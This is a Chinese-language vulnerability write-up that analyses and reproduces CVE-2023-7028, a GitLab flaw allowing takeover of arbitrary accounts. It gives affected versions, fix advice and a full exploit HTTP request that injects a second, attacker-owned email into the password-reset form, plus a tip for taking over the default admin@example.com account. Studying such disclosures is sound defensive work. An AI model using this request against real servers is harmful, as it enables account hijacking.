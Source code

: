 
GitLab任意用户接管漏洞分析复现（CVE-2023-7028）

- - -

# GitLab任意用户接管漏洞分析复现（CVE-2023-7028）

## 漏洞描述

2024年1月11日，Gitlab官方披露CVE-2023-7028 GitLab 任意用户密码重置漏洞，官方评级严重。攻击者可利用忘记密码功能，构造恶意请求获取密码重置链接从而重置密码。官方已发布安全更新，建议升级至最新版本，若无法升级，建议利用安全组功能设置Gitlab仅对可信地址开放。

### 影响范围

> 16.1 <= Gitlab < 16.1.6
> 
> 16.2 <= Gitlab < 16.2.9
> 
> 16.3 <= Gitlab < 16.3.7
> 
> 16.4 <= Gitlab < 16.4.5
> 
> 16.5 <= Gitlab < 16.5.6
> 
> 16.6 <= Gitlab < 16.6.4
> 
> 16.7 <= Gitlab < 16.7.2

**这里需要注意的是，该漏洞于 2023 年 5 月 1 日在 16.1.0 中引入。所以低于Gitlab主线版本低于16.1.0环境不受该漏洞影响。**

### 漏洞利用前置条件

1、知道任意用户的邮箱

2、管理员正确配置了邮件服务

## 代码分析

根据官方的[commit记录](https://gitlab.com/rluna-gitlab/gitlab-ce/-/commit/24d1060c0ae7d0ba432271da98f4fa20ab6fd671)来看，很容易就能发现问题——限制了邮件发送的数量。

[![](assets/1705540495-a923dfaea0737809eab6dcefd227874c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003924-a4085d56-b3c4-1.png)

## 漏洞复现

知道了漏洞的原理，接下来就开始漏洞复现。

首先访问`/users/password/new`进入到重置密码的页面，输入一个你知道的用户，然后使用Burp或者其他工具抓包。  
[![](assets/1705540495-f0a62c6f9907bcbf6ff2ee5beb705d30.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116003935-aa853d2a-b3c4-1.png)

```plain
POST /users/password HTTP/1.1
Host: 1.1.1.1
Content-Length: 169
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://1.1.1.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Referer: http://1.1.1.1:8090/users/password/new
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: _gitlab_session=e8eb950940d6e5d7c3820e6c9e103d7b
DNT: 1
Sec-GPC: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Connection: close

authenticity_token=LnGtHYZiXkXxCGby0lK-Krqy79_lJlbjWsYjz7exHItcrWDAQQX4Yb1rV9J5y4V89Ik8U9UpTbro8owRoekdAA&user%5Bemail%5D%5B%5D=poc1%40163.com&user%5Bemail%5D%5B%5D=attack%40qq.com
```

第一个邮箱处填写获取到的邮箱，第二个邮箱写上你自己的邮箱，然后发包，过一会你的邮箱就会收到一封密码重置的邮件，然而这个邮件里面的重置连接是另一个用户的，效果如下：  
[![](assets/1705540495-42fa6f2021c366a84eb95bee0e4bde2e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116004034-cde3d466-b3c4-1.png)  
可以看到把重置密码的邮件同时发给了两个邮箱，然而第二个邮箱是没有经过验证的攻击者的邮箱，攻击者收到邮件后直接点击重置密码，就可以接管对应的账户了。

## 后续利用

### Gitlab版本判断

[https://github.com/righel/gitlab-version-nse/](https://github.com/righel/gitlab-version-nse/)

### 重置管理员账号

在gitlab安装时，管理员的默认账户为`admin@example.com`，所以可以通过直接重置默认邮箱，大概率能直接接管gialab管理员的账号。
